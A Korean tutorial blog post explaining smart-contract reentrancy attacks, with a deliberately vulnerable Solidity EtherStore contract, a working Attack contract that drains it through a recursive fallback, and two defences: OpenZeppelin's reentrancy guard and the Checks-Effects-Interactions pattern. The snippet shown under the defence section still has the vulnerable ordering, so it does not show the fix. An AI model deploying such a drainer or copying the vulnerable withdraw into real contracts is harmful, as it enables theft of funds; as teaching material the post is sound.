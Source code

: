 ```yaml
---
emoji: 🧢
title: [취약점 시리즈 1] Reentrancy Attack (재진입 공격)?
date: '2021-12-20 18:38:00'
author: 한성원
tags: EVM Reentrancy ReentrancyAttack
categories: 취약점분석
---
```



# 👋 Reentrancy Attack (재진입 공격)


## 들어가기전
### Fallback 함수?
Fallback 함수는 contract에서 함수를 실행시킬때 함수가 존재하지 않는다면 실행되는 function이다. 
0.6이전 버전에서는 fallback이 ether는 것과 존재하지 않는 함수의 대비책으로 사용되었지만 0.6 이후 버전부터 fallback은 fallback과 receive로 나누어졌다. 0.6부터는 fallback을 사용하지 않고 receive를 통해 이더를 받을 수 있다.
- - -
## Reentrancy Attack(재진입 공격)이란?
Reentrancy Attack은 contract A가 하나의 user로써 contract B 에게 transaction을 보낸다. 이때 contract A가 요청에 대한 제어권을 가지게된다. 그렇게 되면 contract A가 보낸 첫번째 요청이 끝나기 전에 다른 함수를 계속해서 호출 할 수 있게된다. 이는 재진입을 ether를 빼올 수 있게 된다.
- - -

## Example Code
예시를 하나 보도록 하자! 
첫번째 contract A는 ether를 보관하는 곳
두번째 contract B는 A를 공격하는 contract이다.

그대로 remix를 사용해 테스트해보면 이해가 빠를 것이다!
```solidity

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
    
}
```

```solidity 
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
-  <span style="color:grey">출처: https://solidity-by-example.org/hacks/re-entrancy/</span>  

__EtherStore contract__ 를 보면 deposit과 withdraw 함수가 존재한다. 
- deposit 함수를 원하는 만큼의 ether를 보관할 수 있게 해주는 함수이다.
- withdraw 함수는 자신이 보관한 ether를 가져올 수 있는 함수이다. 

__Attack contract__ 에는 attack과 fallback함수가 존재한다.
- attack 함수는 ether 하나를 deposit하고 이후 바로 withdraw 한다
- fallback 함수에는 ether가 1이상 보관되어 있다면 withdraw함수를 다시 부른다.

함수가 호출되는 순서는 다음과 같다
```
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- ...(이후 반복)
```

1. 공격자가 attack 함수를 통해 EtherStore에 1 ether를 deposit한다
2. 이후 EtherStore에 1 ether를 찾겠다고 withdraw 함수를 호출한다.
3. withdraw 함수가 호출되면 attack 함수의 fallback function이 호출된다.(이더를 가져오기 때문에!)
4. 이후 fallback function 안에 있는 withdraw함수를 재호출 하게된다.
5. 이후 3-4 과정이 반복되며 재진입 공격이 성공한다.

이처럼 재진입 공격을 통해 부당한 이득을 취할 수 있게된다.

- - -
## How to prevent?
그렇다면 reentrency attack은 어떻게 예방 할 수 있을까?

Reentrency attack은 예방하는 방법은 총 2가지로 나눌 수 있다. 
1. openzeppline의 ReentrancyGuard contract의 noReentrant modifier 사용하기
    -  openzeppline Library는 secure smart contract 개발을 위한 Library이다.
    - noReentrant modifier의 코드는 이러하다. 
    ```solidity
        modifier nonReentrant() {
        // On the first call to nonReentrant, _notEntered will be true
        require(_status != _ENTERED, "ReentrancyGuard: reentrant call");

        // Any calls to nonReentrant after this point will fail
        _status = _ENTERED;

        _;

        // By storing the original value once again, a refund is triggered (see
        // https://eips.ethereum.org/EIPS/eip-2200)
        _status = _NOT_ENTERED;
    }
    ```
    함수 뒤에 noReentrant를 붙혀주는 것으로 쉬게 사용 가능하다.

2. Check-Effects-Interaction 패턴
  -  함수 내에서 interaction이 일어나기 전 check와 effect를 다 적용하는 패턴이다. 위 예제의 withdraw 함수 같은 경우 effect 부분이 interaction 부분 다음에 있는 것을 볼 수 있다. 
  - Check-Effects-Interaction 패턴을 적용하게 되면 interaction하기 전에 먼저 balance에 대한 데이터가 바뀜으로 reentrency하게 되어도 require문에 걸리게 된다.
  

  ```solidity
  function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}(""); // interaction 부분!!
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0; // effect!!
    }
  ```
- - -

## 마치며
"블록체인은 해킹 당하지 않는다!" 라는 것은 맞는 말이지만 블록체인 위에서 만들어지는 smart contract는 그렇지 않다. 코드를 조금이라도 잘못 짜게되면 Reentrency attack과 많은 취약점들이 생길 수 있다. 그럼으로 앞으로 취약점들에 대해 공부해 smart contract를 만들때 유의하도록 하자!!

```toc

```